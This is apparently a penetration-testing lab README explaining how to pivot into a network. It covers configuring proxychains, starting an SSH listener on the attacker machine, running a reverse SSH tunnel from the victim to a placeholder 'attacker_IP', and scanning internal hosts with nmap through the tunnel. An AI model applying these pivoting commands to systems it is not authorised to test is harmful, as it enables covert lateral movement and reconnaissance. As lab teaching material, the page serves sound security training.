 ## Configure a Port Fowarding Rule

![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/6f884824-3493-45c3-b352-12c24a82e1e3)

![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/a007e4fa-4897-4dfe-8e8a-dbd967682037)




#### ***SKIP NEXT STEP IF YOU CONFIGURED PROXY CHAINS ALREADY***

1. (COMMENT) `(#strictchain)`
2. (UNCOMMENT) `(dynamicchain)`
3. (UNCOMMENT) `(quitemode)`
4. (COMMENT) `(#proxydns)`
Then change the default config at the bottom from socks4 to socks5
127.0.0.1 9080 and whatever port you want to use.



### (ATTACKER) 

```
sudo nano /etc/proxychains4.conf
```

#### START HERE IF PROXY CHAINS IS ALREADY CONFIGURED
### (ATTACKER) 

```
netstat -napt (set up listener over ssh)
```

```
sudo systemctl status ssh.service (CHECK CHANGE CHECK)
```

```
sudo systemctl start ssh.service (check if started)
```

```
netstat -napt | grep LISTEN
```

Example of open port

![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/2e8d4981-4e7f-4885-bdd1-3a068f50d35f)


### (VICTIM)

```
ssh -N -f -R 127.0.0.1:9080 attacker_username@attacker_IP -p unique_pivot_port
```

(This command wont show you anything go back to kali and run net stat, port shoud be open now) 
![image](https://github.com/sannicJP/Pen-Test-LAB/assets/161343927/f908fd65-c196-4d2c-918e-9cc18a4e7cc8)

(since the proxy is now available to us we will wrap nmap inside proxychains)
### (ATTACKER) 

```
sudo proxychains nmap -iL scope -F -sT -Pn | tee fast_scan
```

(we are listening over ssh we are not manipulating the port we are manipulating the port fowarding rule)

